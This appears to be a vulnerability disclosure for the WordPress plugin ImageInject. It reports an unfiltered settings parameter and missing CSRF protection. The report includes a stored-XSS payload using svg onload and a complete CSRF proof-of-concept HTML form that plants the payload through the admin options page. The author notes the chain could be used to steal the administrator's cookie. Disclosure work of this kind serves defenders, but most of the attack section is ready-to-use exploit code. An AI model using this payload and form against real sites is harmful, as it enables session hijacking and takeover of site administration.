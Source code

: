 Well ,sir ,I just found a Stored-XSS bug and a CSRF bug here.

#### Stored-XSS

When the admin user click the "Save All Settings" button in the ImageInject setting page, we'll post some data to:

```
http://localhost/wordpress/wp-admin/options-general.php?page=wpdf-options
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ImageInject/button.png)

But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
flickr_appid=test'"><svg/onload=console.log(/xss_at_image_inject_appid/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ImageInject/insert-xss.png)


#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/options-general.php?page=wpdf-options" method="POST">
      <input type="hidden" name="flickr&#95;enabled" value="1" />
      <input type="hidden" name="flickr&#95;appid" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss&#95;at&#95;image&#95;inject&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="flickr&#95;license" value="test" />
      <input type="hidden" name="flickr&#95;sort" value="relevance" />
      <input type="hidden" name="pixabay&#95;enabled" value="1" />
      <input type="hidden" name="pixabay&#95;image&#95;type" value="all" />
      <input type="hidden" name="general&#95;save&#95;images" value="1" />
      <input type="hidden" name="general&#95;feat&#95;img&#95;size" value="medium" />
      <input type="hidden" name="general&#95;default&#95;align" value="none" />
      <input type="hidden" name="general&#95;attr&#95;location" value="caption" />
      <input type="hidden" name="general&#95;items&#95;per&#95;req" value="40" />
      <input type="hidden" name="advanced&#95;img&#95;template" value="&lt;img&#32;title&#61;&quot;&#123;title&#125;&#32;by&#32;&#123;author&#125;&quot;&#32;alt&#61;&quot;&#123;keyword&#125;&#32;photo&quot;&#32;src&#61;&quot;&#123;srs&#125;&quot;&#32;&#47;&gt;" />
      <input type="hidden" name="advanced&#95;attr&#95;template" value="&lt;small&gt;Photo&#32;by&#32;&lt;a&#32;href&#61;&quot;&#123;link&#125;&quot;&#32;target&#61;&quot;&#95;blank&quot;&gt;&#123;author&#125;&lt;&#47;a&gt;&#32;&#123;cc&#95;icon&#125;&lt;&#47;small&gt;" />
      <input type="hidden" name="advanced&#95;attr&#95;template&#95;multi" value="&lt;small&gt;Photos&#32;by&#32;&#123;linklist&#125;&lt;&#47;small&gt;" />
      <input type="hidden" name="advanced&#95;filename&#95;template" value="&#123;filename&#125;&#95;&#123;keyword&#125;" />
      <input type="hidden" name="save&#95;options" value="Save&#32;All&#32;Settings" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin ImageInject.